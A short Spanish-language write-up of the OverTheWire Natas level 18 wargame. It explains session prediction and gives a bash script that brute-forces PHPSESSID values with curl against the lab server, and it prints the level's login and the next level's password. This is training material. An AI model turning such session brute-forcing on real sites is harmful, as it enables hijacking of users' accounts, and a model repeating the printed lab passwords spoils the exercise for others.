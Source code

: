 ```yaml
---
title: Natas-18
published: true
---
```


# [](#header-1)Natas-18

Hay varias tecnicas para hackear la cookie en PHP. El server configura la cookie con el parametro httpOnly con lo que decidi intentar acertar mediante fuerza bruta (Session Prediction)

```bash
#!/bin/bash
count=0

# $maxid = 640; // 640 should be enough for everyone 
while [ 640 -ge $count ]
do
	output=$(curl -s -u natas18:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP -X POST -F username=admin -F password=12345 --cookie "PHPSESSID=$count" http://natas18.natas.labs.overthewire.org/ | wc -m)

	# Si wc -m es 1000, la salida html sera que no te has logeado como admin,
	# si es distinto sera la solucion o otro tipo de salida.

	if [[ $output != 1000 ]]; then
		echo "PHPSESSID -> $count"
		break
	fi

	echo "retry $count"
	let count=count+1
done

# Username: natas19
# Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

```

